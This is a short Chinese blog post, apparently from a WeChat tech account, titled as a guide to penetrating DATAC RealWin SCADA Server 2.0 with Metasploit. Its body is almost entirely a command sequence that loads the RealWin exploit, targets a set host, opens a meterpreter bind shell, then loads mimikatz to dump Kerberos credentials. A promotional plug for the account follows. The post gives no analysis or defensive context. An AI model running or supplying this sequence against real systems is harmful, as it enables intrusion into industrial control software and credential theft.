 ```yaml
---
layout: post
category: curleyg-code-hack
title: 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0
lock: need
---
```


# 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0

```
msfconsole
use exploit/windows/scada/realwin_scpc_initialize
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
show options
exploit
sysinfo
load mimikatz
kerberos
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
